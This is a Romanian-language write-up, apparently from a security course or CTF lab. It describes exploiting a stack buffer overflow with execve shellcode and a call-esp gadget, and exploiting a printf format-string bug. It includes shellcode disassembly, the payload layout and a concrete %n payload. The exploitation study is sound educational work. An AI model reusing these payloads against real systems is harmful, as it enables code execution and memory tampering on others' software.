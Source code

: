 # 1 - Folosirea Apelului de Sistem `execve` în *Shellcode* 💁

Analizând într-un dezasamblor (eventual și decompilator), deducem faptul că programul ia ca argumente două valori: numele unui fișier, al cărui conținut îl citește într-un *buffer*, și numărul de paragrafe pe care textul trebuie să îl atingă sau depășească. Din cauza lungimii fixe a *buffer*-ului, programul este vulnerabil la o suprascriere a acestuia.

Putem genera un fișier cu o lungime care să o depășească pe cea a *buffer*-ului (1100 de caractere sunt suficiente) din interpretorul în linie de comandă a Python 3.

```
from pwnlib.util.cyclic import *
generator = cyclic_gen()
garbage_payload = generator.get(1100)
open("payload.bin", "wb").write(garbage_payload)
```

Dând numele fișierul generat (`payload.bin`) ca argument executabilului, observăm că o eroare este produsă. Din ieșirea comenzii `dmesg`, putem observa că registrul `eip` a fost suprascris cu o valoare care nu poate fi dereferențiată. Luând acea valoare și convertind-o în ASCII (obținând un șir de caractere pe care în notăm cu `EIP_VALUE`), putem afla distanța dintre începutul *buffer*-ului și valoarea ce suprascrie registrul `eip` tot din interpretorul deschis anterior, cu ajutorul comenzii `generator.find(EIP_VALUE)`.

Vizitând *website*-ul menționat în enunț, putem alege un *shellcode* care să lanseze un *shell* (de exemplu, [acesta](http://shell-storm.org/shellcode/files/shellcode-841.php)). Copiind șirul de octeți ce îl reprezintă într-un fișier numit `shellcode.bin`, putem folosi comanda `objdump -b binary -m i386 -D shellcode.bin` pentru a-l dezasambla.

```
shellcode.bin:     file format binary

Disassembly of section .data:

00000000 <.data>:
   0:	31 c9                	xor    ecx,ecx
   2:	f7 e1                	mul    ecx
   4:	b0 0b                	mov    al,0xb
   6:	51                   	push   ecx
   7:	68 2f 2f 73 68       	push   0x68732f2f
   c:	68 2f 62 69 6e       	push   0x6e69622f
  11:	89 e3                	mov    ebx,esp
  13:	cd 80                	int    0x80
  15:	0a                   	.byte 0xa
```

Payload-ul final se va folosi și de simbolul menționat, `helper`. Acesta execută instrucțiunea `call %esp`, ceea ce mută fluxul programului pe stivă, octeții executați fiind cei imediat de sub adresa de retur.

Structura payload-ului este următoarea:

```
+-----------------------+-------------------------------+-----------+
|                       |                               |           |
| 1052 bytes of garbage | 4 bytes for address of helper | shellcode |
|                       |                               |           |
+-----------------------+-------------------------------+-----------+
```

Crearea *payload*-ului și exploatarea efectivă a programului pot fi găsite în *script*-ul [exploit.py](essay-checker/exploit.py)

# 2 - Exploatări ale Șirurilor de Caractere de Formatare 💁

Dezasamblarea și decompilarea programului ne sugerează faptul că programul, în interiorul funcției `print_letter`, apelează funcția `printf` cu un singur argument, acesta fiind controlat de utilizator. Din semnătura funcției, primul argument poate conține și secvențe de caractere pentru formatare, de tipul `%d`, `%x`, `%s` și `%n`.

Exploatarea se poate efectua astfel:
- Întreruperea execuției programului: Este de ajuns să punem o secvență scurtă de `%s` pentru ca programul să încerce să dereferențieze o adresă nemapată corespunzător. Acest lucru va produce închiderea procesului.
- Citirea de informații din memoria procesului: Folosind ca intrare o secvență de `%08x`, putem inspecta tot conținutul stivei procesului.
- Suprascrierea informațiilor în memoria procesului: Suprascrierea se poate efectua prin folosirea `%n`, care scrie la o adresă de memorie numărul de caractere care au fost printate. Astfel, putem scrie în memorie la orice adresă. Pentru moment, să presupunem numai că dorim să suprascriem valoarea salvată la simbolul `gifts_count` (mai multe cadouri de Crăciun pentru atacator 🤷). Cum adresa este salvată în cadrul funcției `main`, trebuie numai să ducem cursorul funcției `printf` până acolo. Un payload funcțional ar fi astfel `14 * "%0100x " + "%n"`.